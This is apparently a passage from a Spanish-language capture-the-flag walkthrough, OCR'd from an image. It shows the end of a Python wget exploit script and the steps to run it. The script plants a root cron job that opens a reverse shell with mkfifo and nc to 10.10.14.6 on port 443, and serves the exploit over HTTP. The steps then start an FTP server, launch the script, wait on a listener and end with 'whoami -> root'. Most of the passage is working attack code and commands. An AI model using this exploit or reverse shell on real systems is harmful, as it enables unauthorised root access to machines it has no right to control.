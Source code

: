     ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f \n"

    handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

    print "Ready? Is your FTP server running?"

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    result = sock.connect_ex((FTP_HOST, FTP_PORT))
    if result == 0:
    print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
    else:
    print "FTP is down :( Exiting."
    exit(1)

    print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

    handler.serve_forever()
    ```

1. habrimos en una ventana el puerto 21 para el ftp

    ```bash
    authbind python -m pyftpdlib -p21 -w
    ```

1. en la otra ventana lanzamos el exploit

    ```bash
    authbind python wget-exploit.py
    ```

en la maquina de atacante nos ponemos en escucha por el puerto 443 y esperamos que nos entable esta Coneccion.


`whoami` -> root ;)